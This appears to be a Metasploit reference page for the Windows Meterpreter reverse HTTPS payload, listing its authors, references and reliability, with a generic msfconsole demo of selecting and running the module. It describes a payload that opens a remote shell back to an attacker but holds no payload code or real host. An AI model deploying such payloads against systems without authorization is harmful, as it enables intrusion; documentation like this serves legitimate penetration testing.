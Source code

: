 ## Windows Meterpreter Shell, Reverse HTTPS Inline

Connect back to attacker and spawn a Meterpreter shell


## Module Name
payload/windows/meterpreter_reverse_https

## Authors
* OJ Reeves
* sf


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/meterpreter_reverse_https
msf payload(meterpreter_reverse_https) > show targets
   ... a list of targets ...
msf payload(meterpreter_reverse_https) > set TARGET <target-id>
msf payload(meterpreter_reverse_https) > show options
   ... show and set options ...
msf payload(meterpreter_reverse_https) > run
```
    
    